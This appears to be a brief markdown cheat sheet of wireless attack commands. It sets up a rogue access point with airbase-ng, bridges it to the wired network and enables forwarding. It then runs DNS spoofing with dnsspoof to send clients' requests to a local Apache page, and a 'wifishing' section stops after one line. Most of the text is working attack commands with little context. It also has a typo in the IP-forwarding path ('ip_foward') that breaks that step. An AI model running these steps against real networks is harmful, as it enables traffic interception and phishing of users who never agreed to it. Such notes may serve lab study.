 ## MITM

```
airbase-ng --essid mitm -c 11 wlan0mon

```

creates a tap interface at0

```
ifconfig at0
brctl addbr mitm-bridge
brctl addif mitm-bridge eth0
brctl addif mitm-bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up

```

assign IP address to the bridge interaface

```
ifconfig mitm-bridge 192.168.0.199 up
```

then ping the gateway to ensure that we are connected to rest of the network

```
echo 1 > /proc/sys/net/ipv4/ip_foward
```

connect a wireless client and ping the gateway to ensure connectivity


## DNS spoofing sessions

wireshark filter

```
dns
```

using dnsspoof

```
dnsspoof -i mitm-bridge
```

will foward to a server running on port 80... 

```
apache2ctl start
```

will direct all request to the apache test page on port 80

## wifishing

create four virtual interfaces using all AP encryption types
